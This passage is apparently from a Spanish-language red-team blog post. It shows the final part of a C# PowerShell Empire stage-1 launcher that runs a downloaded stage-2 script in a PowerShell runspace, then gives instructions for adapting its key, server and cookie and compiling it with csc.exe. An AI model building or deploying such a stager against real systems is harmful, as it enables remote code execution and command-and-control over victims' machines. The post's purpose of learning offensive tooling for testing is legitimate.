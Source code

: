 ```
 
            // Create a PowerShell Object to execute the command 
            PowerShell PowerShellInstance = PowerShell.Create();
 
            // Create the variables $ser and $u which are part of the downloaded stage2
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
 
            // Add the Script Stage 2 to the Powershell Object
            PowerShellInstance.AddScript(stage2);
 
            // Execute the Script!
            PowerShellInstance.Invoke();
 
        }
    }
}
```
# Ajustar el Codigo a mi Empire.

Si quieres probar necesitarás modificar este código para incluir tus variables, cambiar **clave (key)**, **servidor (server)**, **destino (target)** y **cookie**. Para obtener esta información de tu Empire ejecuta el comando de launcher (**powershell launcher <Nombre de tu Listener>**), usa **base64 -d** para decodificar el script y verifique esos valores.

Para compilar, puede usar csc.exe y hacer referencia a System.Management.Automation.dll. Ejemplo: guarde su código en PSEmpireStage1.cs y use el símbolo del sistema del desarrollador.

```
csc.exe PSEmpireStage1.cs /reference:C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

Si aún no te queda claro, puedes revisar el video de como hacerlo: 

{% include video id="la1fr4Mpj-4" provider="youtube" %}
 
Hay mucho más por descubrir para PowerShell Empire, pero para mí fue un buen comienzo. He estado usando PowerEmpire durante casi 6 meses y no sabía todo esto.
 
El proyecto está en mi [GitHub](https://github.com/juliourena/plaintext/blob/master/PowerEmpire/PSEmpireStage1.cs).

**Dios les bendiga!**

**El servir a Cristo, no es una tarea, sino una relación. Amigos de Dios. Jn 15:15** 